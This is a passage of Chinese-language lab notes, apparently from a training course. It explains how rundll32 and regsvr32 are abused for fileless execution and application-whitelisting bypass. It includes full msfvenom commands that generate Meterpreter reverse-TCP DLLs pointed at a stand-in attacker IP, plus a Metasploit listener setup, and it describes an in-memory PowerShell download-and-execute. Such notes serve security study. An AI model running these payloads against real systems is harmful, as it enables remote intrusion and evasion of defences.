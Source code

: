         这个命令同样使用 `rundll32.exe` 和 JScript 来执行 PowerShell 命令，该 PowerShell 命令会从指定的 URL 下载 (`DownloadString`) 并执行 (`IEX - Invoke-Expression`) 一个 PowerShell 脚本。下载的内容直接在内存中执行。

---

#### 应用程序白名单绕过 (Application Whitelisting Bypass)

应用程序白名单是一种安全策略，它只允许预先批准的、已知安全的应用程序或可执行文件在操作系统上运行，从而阻止恶意和未经授权的程序。然而，一些受信任的、微软签名的系统工具由于其特殊功能，可能被滥用于绕过这种白名单机制。

##### 1. Regsvr32 (`regsvr32.exe`)

- **合法用途**: `regsvr32.exe` 是微软的命令行工具，用于在 Windows 注册表中注册和注销 COM 组件，主要是 DLL 文件和 ActiveX 控件 (`.ocx`)。
    
- **路径**:
    
    - 64位 Windows: `C:\Windows\System32\regsvr32.exe` (64位版本，用于注册64位DLL)
    - 64位 Windows 上的 32位版本: `C:\Windows\SysWOW64\regsvr32.exe` (32位版本，用于注册32位DLL)
    - 32位 Windows: `C:\Windows\System32\regsvr32.exe` (32位版本)
- **恶意滥用**: 除了其预期用途外，`regsvr32.exe` 可以被用来执行存储在本地或远程（通过 COM 脚本宿主文件 `.sct`）的任意代码，并可能绕过 Windows 应用程序白名单。根据 Red Canary 的报告，滥用 `regsvr32.exe` 是非常流行的 ATT&CK 技术之一 (**T1218.010 - Signed Binary Proxy Execution: Regsvr32**)。它利用了受信任的 Windows 组件，并且代码可以在内存中执行，这是其能够绕过某些应用白名单配置的原因之一。
    
- **示例：执行恶意 DLL (Meterpreter)**
    
    1. **创建恶意 DLL**: 使用 `msfvenom` 创建一个 Meterpreter 反向 TCP Shell 的 DLL。
        
        - **32位 DLL 示例**:
            
            Bash
            
            ```
            user@machine$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackBox_IP> LPORT=443 -f dll -a x86 -o live0fftheland_x86.dll
            ```
            
        - **64位 DLL 示例**:
            
            Bash
            
            ```
            user@machine$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=<AttackBox_IP> LPORT=443 -f dll -a x64 -o live0fftheland_x64.dll
            ```
            
    2. **设置 Metasploit 监听器**:
        
        Bash
        
        ```
        msf6 > use exploit/multi/handler
        msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp # 或 windows/x64/meterpreter/reverse_tcp
        msf6 exploit(multi/handler) > set LHOST <AttackBox_IP>
        msf6 exploit(multi/handler) > set LPORT 443
        msf6 exploit(multi/handler) > exploit
        ```
        
    3. **传输 DLL**: 将生成的 DLL 文件传输到受害者机器（例如，通过 Web 服务器下载）。
        